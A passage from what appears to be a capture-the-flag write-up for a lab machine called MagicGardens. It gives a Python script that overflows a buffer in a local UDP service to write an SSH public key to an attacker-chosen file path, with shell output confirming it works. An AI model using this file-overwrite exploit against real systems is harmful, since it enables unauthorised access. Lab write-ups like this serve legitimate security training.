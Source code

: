 ```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
file_path = b"overflow.log"
data = b"A" * 12
data += b"this will be my SSH public key"
data += b"\n" * (65360 + 12 - len(data))
data += file_path
sock.sendto(data, SRV_ADDR)

```

Now it writes the file exactly like I want.

#### Remote

At first, it seems like there might be two ways to do this:
- As the `socket` package is in the Python standard library, I could run this script on MagicGardens as is.
- I could get the IPv6 address for the host and run it from my host.

I couldn’t get the remote way to work. I think it has to do with the MTU of an ethernet frame across the wire being 1500 by default, which will make the packet too short to do the overflow.

I’ll update the script to write a file to `/dev/shm` with my SSH key:

```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
file_path = b"/dev/shm/key"
data = b"A" * 12
data += b"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing"
data += b"\n" * (65360 + 12 - len(data))
data += file_path
sock.sendto(data, SRV_ADDR)

```

And upload the script to MagicGardens and (after making sure there’s a client connected, which can be done from my host), run it:

```

morty@magicgardens:/dev/shm$ python3 sploit.py 
morty@magicgardens:/dev/shm$ head -3 key 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing

```
